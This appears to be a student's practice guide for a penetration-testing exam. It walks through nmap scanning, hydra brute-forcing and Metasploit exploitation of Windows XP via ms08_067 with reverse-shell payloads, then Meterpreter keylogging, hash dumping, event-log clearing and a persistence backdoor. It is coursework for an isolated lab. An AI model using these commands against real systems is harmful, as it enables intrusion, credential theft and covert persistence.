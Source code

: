 # Practical Exam 1 Practice

* During the formal test, you are only using Kali Linux, steps for setting up other machines are here for your own practice.

## Question 1

#### Linux Network Setup (Kali, Metasploitable2):

To setup network on Linux:

```bash
ip a a <IP>/<Prefix> dev <NetworkInterface>
```

To check current IP configuration, use:

```bash
ip a
```

or

```bash
ifconfig
```

and check the ```inet``` parameter of your network interface for IPv4 address. You only need to config IP Kali during you test, for Metasploitable2 , run the setup command with ```sudo``` with msfadmin.

#### Windows Network Setup:

* You don't need to do this during your formal test.

To setup network on Windows 7 and higher:

* Go to Network and Sharing Center, click on the connection.
* Then select Properties.
* Then highlight the "Internet Protocol..." with IPv4, select Properties.
* Assign IP accordingly.

For Windows XP:

* Go to Control Panel.
* Select Network Connection.
* Double-click the network.
* Select Properties.
* Then highlight "Internet Protocol [TCP/IP]", select Properties.
* Assign IP accordingly.

## Question 2

To find live hosts on current network, use ```nmap```:

```bash
nmap -sn <NetworkAddress/Prefix>
```

For port scanning:

```bash
nmap <HostAddress>
```

For OS information:

```bash
nmap -O -v <HostAddress>
```

To turn off the firewall on Windows (for your own practice) :

* Search "Windows Firewall" and select the option with exactly these 2 words.
* Click "Turn Windows Firewall on or off" on side menu.
* Turn off the firewall.

## Question 3

To brute-force a password of a given username with a specific network protocol on a remote host, use ```hydra```:

* You will need a password dictionary to power the brute-force operation.

```bash
hydra -l <LoginUsername> -P <PathToPasswordDictionary> <HostIPAddress> <NetworkProtocol> -t <ParallelAttempts>
```

## Question 4

Windows XP can be exploited by:

* VNC injection, returns a GUI view or control
* Meterpreter, returns a command prompt to perform miscellaneous actions on target host.

For VNC injection, while in Metasploitable Framework prompt ( ```msf6>``` ): 

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
set ViewOnly false
exploit
```

For Meterpreter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
exploit
```

During Meterpreter session ( ```meterpreter>``` ), commands that could be useful:

```bash
cd # Change directory
ls # List directory
pwd # Current directory
sysinfo # System information
ipconfig # Network information
screenshot # Take a screenshot from target host
hasdump # Dump all user's hashes on the screen
search -f <filename> # Search file based on name in current directory
download <RemotePath> <LocalPath> # Remote download file from target host to local
# Remember the path for download command has to be Unix type, for Windows '\',
# Either double it '\\' or change back to '/'.

clearev # Clean event logs

getpid # Get current process ID
ps # List current Processes on target host
migrate <processID> # Migrate to process ID
keyscan_start # Start key logging, only works with good process privilege.
keyscan_dump # Dump key logging, only works with good process privilege.
keyscan_stop # Stop key logging, only works with good process privilege.

# Backgroud current session
background
bg
# Or ctrl + z
```

To add backdoor on the Meterpreter session, background the session, then in MSF prompt:

```bash
use exploit/windows/local/persistence
set LHOST <KaliIPAddress>
set LPORT 445
set STARTUP SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
sessions # Get the meterpreter session's ID
set session <MeterpreterSessionID> 
exploit
```

Then, use multi/handler to listen the incoming connection:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set LPORT 445
run # alias of exploit, use any
```

After that, if XP gets rebooted, it will send back the connection and Kali will enter Meterpreter prompt automatically.

## Additionally

During MSF prompts, several things:

```bash
search <Keyword> # Search exploits via keyword
show options # Give current configurable parameters for current exploit and payload
show paylaods # Show possible payloads for current exploit
show targets # Show possible targets for current exploit
```

* Use ```setg``` instead of ```set``` to preserve parameter values across different exploits with the same parameter name.
* The parameter names are case-insensitive, but if the parameter values are given accepted value (Accepted: ...), you must match the case:

```bash
set sTArTuP SYSTEM # That is okay
set STARTUP system # NOT OKAY
```
